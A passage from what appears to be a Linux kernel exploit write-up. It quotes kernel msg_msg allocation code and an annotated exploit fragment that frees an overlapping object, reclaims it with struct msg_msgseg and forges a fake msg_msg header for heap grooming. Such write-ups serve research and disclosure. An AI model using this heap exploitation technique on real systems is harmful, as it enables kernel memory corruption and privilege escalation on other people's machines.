 ```c
		return NULL;

	msg->next = NULL;
	msg->security = NULL;

	len -= alen;
	pseg = &msg->next;
	while (len > 0) {
		struct msg_msgseg *seg;

		cond_resched();

		alen = min(len, DATALEN_SEG);
		seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT); // [2]
		if (seg == NULL)
			goto out_err;
		*pseg = seg;
		seg->next = NULL;
		pseg = &seg->next;
		len -= alen;
	}

	return msg;

out_err:
	free_msg(msg);
	return NULL;
}
```
We utilize `struct msg_msgseg`, which can be allocated with a specified size and gives control over the entire slab chunk except for the first 8 bytes [1]. This object is straightforward to allocate since it is allocated with the same routines as `struct msg_msg` [2].

- [exploit/extra-refined/exploit.c#L828](../exploit/extra-refined/exploit.c#L828)
```c
// free the overlapping one and reclaim it with msg_msgseg
memset(buf, 0, sizeof(buf));
uintptr_t buf_ptr = (uintptr_t)buf - 48;
// write the fake size
*(uintptr_t *)(buf_ptr + 0x1000) = 0;                  // mlist.prev
*(uintptr_t *)(buf_ptr + 0x1000 + 8) = 2;              // m_type
*(uintptr_t *)(buf_ptr + 0x1000 + 0x10) = 0x1000 - 48; // m_ts (PG_SIZE - sizeof(struct msg_msg))
*(uintptr_t *)(buf_ptr + 0x1000 + 0x18) = 0;           // next
*(uintptr_t *)(buf_ptr + 0x1000 + 0x20) = 0;           // security

ret = msgrcv(msgqids1[2], msg, sizeof(msg_buf) - 1, 0, IPC_NOWAIT | MSG_NOERROR); // [1]
if (ret < 0)
	perror("msgrcv");
// PG_SIZE - sizeof(struct msg_msg) - TARGET_SIZE - sizeof(struct msg_msgseg)
if (send_msg(msgqid3, buf, 0x1000 + (CG_MSG_MSG_SIZE - 0x10) - 48 - 8, 1) < 0) // [2]
	perror("msgsnd");
```
